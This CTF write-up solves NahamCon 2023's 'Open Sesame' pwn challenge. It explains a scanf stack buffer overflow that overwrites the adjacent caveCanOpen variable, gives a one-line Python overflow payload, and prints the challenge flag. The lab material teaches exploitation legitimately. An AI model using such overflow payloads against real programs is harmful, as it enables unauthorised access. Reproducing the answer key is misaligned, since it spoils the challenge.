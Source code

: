 # NahamCon 2023

## Open Sesame

> Something about forty thieves or something? I don't know, they must have had some secret incantation to get the gold!
>
>  Author: @JohnHammond#6971
>
> [`open_sesame.c`](open_sesame.c)
> [`open_sesame`](open_sesame)

Tags: _pwn_

## Solution
For this challenge the executable and the source code is provided. Inspecting the executable is not really needed as the challenge is really basic. The main function straight jumps into `caveOfGold`. In this function two conditions need to be matched:

```c
if (caveCanOpen == no)
{
    puts("Sorry, the cave will not open right now!");
    flushBuffers();
    return;
}

if (isPasswordCorrect(inputPass) == yes)
{
    puts("YOU HAVE PROVEN YOURSELF WORTHY HERE IS THE GOLD:");
    flag();
}
else
{
    puts("ERROR, INCORRECT PASSWORD!");
    flushBuffers();
}
```

The user input is written to `inputPass` that is a 256 byte array following on the stack right `caveCanOpen`. Since `scanf` is used the input can overflow without problems and override `caveCanOpen` with any value. The condition checks for `no` which is an enum and equal to `0`, so we need an non zero value in `caveCanOpen`. Inspecting the real offset of `caveCanOpen` after `inputPass` reveals that the array length is actually `268` bytes.

The second condition is a password check. `SECRET_PASS` is a clear string in code.

```c
#define SECRET_PASS "OpenSesame!!!"

...

Bool isPasswordCorrect(char *input)
{
    return (strncmp(input, SECRET_PASS, strlen(SECRET_PASS)) == 0) ? yes : no;
}
```

The final payload needs to start with `OpenSesame!!!`, some values filling the whole buffer and then one non zero byte overriding `caveCanOpen`. Note that no null byte is needed after the password, since the password check uses `strncmp`.

```bash
$ python -c 'print("OpenSesame!!!" + "X"*256);'
OpenSesame!!!XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

Using this payload with the service leads the flag
```
YOU HAVE PROVEN YOURSELF WORTHY HERE IS THE GOLD:
flag{85605e34d3d2623866c57843a0d2c4da}
```

Flag `flag{85605e34d3d2623866c57843a0d2c4da}`